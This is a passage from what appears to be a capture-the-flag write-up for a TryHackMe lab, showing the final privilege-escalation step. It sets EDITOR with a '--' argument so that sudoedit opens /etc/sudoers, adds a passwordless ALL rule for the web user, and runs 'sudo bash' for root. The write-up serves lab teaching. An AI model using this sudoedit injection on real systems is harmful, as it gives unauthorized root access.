 This means that we can use `--` to add other files to edit!, there is many we could write to, but most importantly the sudoers file.

```console
web@cyprusbank:~$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Add this line to `/etc/sudoers` file so we can run anything as root with no password, save and quit

```
web ALL=(ALL) NOPASSWD: ALL
```

![privesc](/assets/img/CTF/THM/Whiterose/privesc.png)

Then just do `sudo bash`, and finally we get the root flag

![rootflag](/assets/img/CTF/THM/Whiterose/r00tflag.png)
